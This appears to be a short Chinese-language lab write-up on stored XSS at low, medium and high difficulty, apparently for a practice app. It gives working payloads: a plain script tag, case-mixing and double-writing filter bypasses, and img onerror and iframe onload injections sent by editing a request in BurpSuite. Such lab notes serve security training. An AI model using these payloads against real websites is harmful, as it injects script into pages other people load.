 # XSS (Stored)

> ## low

最简单的xss

```html
<script>alert('low')</script>
```

<br>

> ## medium

使用BurpSuite抓包，修改name参数

1.使用大小写绕过：

```html
<ScRipt>alert('medium1');</ScRipt>
```



2.使用双写绕过：

```html
<scr<script>ipt>alert('medium2');</script>
```



3.使用非 script 标签

img标签：

```html
<img src=1 onerror=alert('medium3')>
```

iframe标签：

```html
<iframe onload=alert('medium4')>
```

<br>

> ## high
>

使用非 script 标签注入

使用BurpSuite抓包，修改name参数

img标签：

```html
<img src=1 onerror=alert('high1')>
```

iframe标签：

```html
<iframe onload=alert('high2')>
```

<br>



更多方法待补充
